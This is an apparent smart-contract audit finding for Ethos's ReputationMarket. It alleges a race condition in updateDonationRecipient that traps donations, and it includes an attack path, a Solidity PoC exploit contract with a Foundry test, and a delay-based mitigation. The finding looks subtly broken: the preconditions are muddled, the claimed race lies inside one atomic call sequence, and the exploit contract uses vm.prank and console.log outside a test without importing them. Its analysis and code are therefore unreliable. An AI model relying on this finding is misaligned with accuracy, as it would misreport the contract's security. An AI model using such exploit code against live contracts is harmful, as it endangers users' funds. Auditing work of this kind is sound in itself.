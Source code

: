 Fun Crepe Lobster

Medium

# Malicious users will permanently lock donation rewards through race condition in updateDonationRecipient

### Summary

Missing donation transition handling in updateDonationRecipient() will cause fund locking vulnerability for market owners as malicious users will exploit transaction timing to trap new donations in inaccessible escrow accounts during recipient updates.

### Root Cause

In [ReputationMarket.sol:L510-L512](https://github.com/sherlock-audit/2024-12-ethos-update/blob/8d00c21b26274a75c47318f2dbacd9a40742034e/ethos/packages/contracts/contracts/ReputationMarket.sol#L510-L512) the atomic update of donation recipient and balance transfer causes race condition with incoming donations, leading to trapped funds.

### Internal Pre-conditions

1. Original donation recipient needs to call updateDonationRecipient() to set donationEscrow[oldRecipient] to be at least 1 ETH
2. Protocol admin needs to ensure donationBasisPoints to be greater than 0
3. Market creator needs to set donationRecipient[profileId] to be exactly the oldRecipient address
4. System needs to set donationEscrow[newRecipient] to be exactly 0

### External Pre-conditions

1. Transaction needs to be mined within 2 blocks of the updateDonationRecipient call
2. Front-running transaction needs to generate at least 0.1 ETH in donations

### Attack Path

1. Attacker calls buyVotes() with large position to generate pending donations
2. Original recipient calls updateDonationRecipient() with new recipient address
3. System processes donation update zeroing old balance
4. System processes pending donations to old recipient address
5. Original recipient loses access to new donations

### Impact

The market owner suffers an approximate loss of 0.1-1 ETH in stuck donations. The attacker doesn't gain these funds but causes them to be permanently locked (griefing attack).

### PoC

// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {ReputationMarket} from "./ReputationMarket.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract DonationRecipientExploit {
    ReputationMarket public market;
    
    constructor(address _market) {
        market = ReputationMarket(_market);
    }
    
    function exploit(uint256 profileId, address oldRecipient, address newRecipient) external payable {
        // Step 1: Front-run with large vote purchase to generate pending donations
        market.buyVotes{value: 10 ether}(
            profileId,
            true, // isPositive
            1000,  // maxVotesToBuy
            1      // minVotesToBuy
        );
        
        // Step 2: Original recipient updates donation recipient
        // This would be called by the original recipient in a separate tx
        vm.prank(oldRecipient);
        market.updateDonationRecipient(profileId, newRecipient);
        
        // Step 3: Check balances
        uint256 oldRecipientBalance = market.donationEscrow(oldRecipient);
        uint256 newRecipientBalance = market.donationEscrow(newRecipient);
        
        console.log("Old recipient balance:", oldRecipientBalance);
        console.log("New recipient balance:", newRecipientBalance);
        
        // Any donations from Step 1 that were processed after the recipient update
        // will be stuck in oldRecipient's escrow
        require(oldRecipientBalance > 0, "Exploit failed - no stuck donations");
    }
}

// Test script
contract DonationRecipientTest is Test {
    ReputationMarket market;
    DonationRecipientExploit exploiter;
    address oldRecipient = address(0x1);
    address newRecipient = address(0x2);
    uint256 profileId = 1;
    
    function setUp() public {
        // Deploy and setup market contract
        market = new ReputationMarket();
        market.initialize(address(this), address(this), address(0), address(0), address(0));
        
        // Setup market with donations enabled
        market.setDonationBasisPoints(500); // 5%
        market.createMarket{value: 1 ether}();
        
        // Deploy exploiter
        exploiter = new DonationRecipientExploit(address(market));
    }
    
    function testExploit() public {
        // Initial donation to old recipient
        vm.deal(address(exploiter), 10 ether);
        
        exploiter.exploit{value: 10 ether}(profileId, oldRecipient, newRecipient);
        
        // Verify old recipient has stuck donations
        uint256 stuckDonations = market.donationEscrow(oldRecipient);
        assertTrue(stuckDonations > 0, "No donations were stuck");
        console.log("Stuck donations:", stuckDonations);
    }
}

### Mitigation

mapping(uint256 => UpdateRequest) public pendingUpdates;
uint256 constant UPDATE_DELAY = 1 days;

struct UpdateRequest {
    address newRecipient;
    uint256 requestTime;
}

function requestDonationRecipientUpdate(uint256 profileId, address newRecipient) public {
    // ... existing checks ...
    pendingUpdates[profileId] = UpdateRequest({
        newRecipient: newRecipient,
        requestTime: block.timestamp
    });
}

function executeDonationRecipientUpdate(uint256 profileId) public {
    UpdateRequest memory request = pendingUpdates[profileId];
    require(block.timestamp >= request.requestTime + UPDATE_DELAY, "Update not ready");
    // ... execute update ...
}